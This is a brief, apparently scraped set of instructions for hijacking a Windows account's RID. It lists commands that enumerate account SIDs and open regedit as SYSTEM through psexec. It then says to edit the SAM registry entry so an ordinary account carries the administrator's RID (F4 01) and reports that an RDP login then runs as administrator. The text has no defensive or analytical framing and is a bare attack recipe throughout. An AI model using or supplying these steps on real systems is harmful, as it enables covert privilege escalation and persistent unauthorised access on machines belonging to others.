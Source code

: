 ```cmd
wmic useraccount get name,sid
psexec64.exe -i -s regedit
```

HKLM\\SAM\\Domains\\Account\\Users

Numbers are in hex format and correspond to the SID above.
Change only the two hex values to match the admin hex values F4 01.  
Login via RDP and whoami shows administrator.  